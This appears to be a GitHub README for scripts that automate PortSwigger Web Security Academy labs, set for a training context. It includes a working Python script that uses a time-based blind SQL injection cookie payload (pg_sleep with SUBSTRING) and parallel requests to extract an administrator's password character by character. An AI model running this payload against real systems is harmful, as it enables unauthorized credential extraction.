 # PortSwigger Lab Helper Scripts

## Overview
This repository contains advanced automation scripts designed to assist with PortSwigger Web Security Academy labs. These scripts significantly reduce the time required to complete certain exercises, especially those that involve blind SQL injection and other time-intensive attack vectors.

Many labs require manual testing or Pro features, making them difficult for users with limited resources. This project aims to streamline the process and improve efficiency by automating repetitive tasks.

## Features
- **Automated SQL Injection**: Leverages time-based blind SQL injection to extract data.
- **Parallel Execution**: Utilizes Python's `ThreadPoolExecutor` for efficient concurrent requests.
- **Customizable Configuration**: Easily adapt scripts to different lab environments.
- **Time Optimization**: Reduces manual effort in identifying vulnerabilities and extracting information.

## Installation
Ensure you have Python 3 installed and set up a virtual environment (optional but recommended):

```sh
python3 -m venv venv
source venv/bin/activate  # On Windows use 'venv\\Scripts\\activate'
pip install -r requirements.txt
```

## Usage
Edit the script to replace the following placeholders with your actual values:
- `YOUR-ID` → Your assigned Web Security Academy ID
- `YOUR-TRACKING-ID` → Tracking ID used in the target request
- `YOUR-SESSION` → Your active session cookie

Example execution:
```sh
python blind_sql_injection.py
```

## Code Example
Below is a simplified version of one of the scripts:
```python
import requests
import string
from concurrent.futures import ThreadPoolExecutor, as_completed
import time

# Configuration
target_url = "https://YOUR-ID.web-security-academy.net/"
cookie_template = "YOUR-TRACKING-ID'||(SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,{pos},1)='{char}')+THEN pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users)--"
session_cookie = "YOUR-SESSION"
characters = string.ascii_lowercase + string.digits

# Response time measurement
def get_response_time(position, char):
    cookies = {"TrackingId": cookie_template.format(pos=position, char=char), "session": session_cookie}
    start_time = time.time()
    requests.get(target_url, cookies=cookies)
    return char, time.time() - start_time

# Password extraction
password = ""
for pos in range(1, 21):
    print(f"[*] Testing position {pos} [a-z0-9]")
    with ThreadPoolExecutor(max_workers=5) as executor:
        results = {executor.submit(get_response_time, pos, char): char for char in characters}
        best_match = max((f.result() for f in as_completed(results)), key=lambda x: x[1])[0]
        password += best_match

print(f"[+] Extracted password: {password}")
```

## Disclaimer
These scripts are intended for **educational purposes only** and should only be used on authorized systems, such as PortSwigger labs. Unauthorized use against third-party applications is strictly prohibited and may result in legal consequences.

## Contribution
Feel free to submit issues or contribute enhancements via pull requests. Security and performance improvements are always welcome.


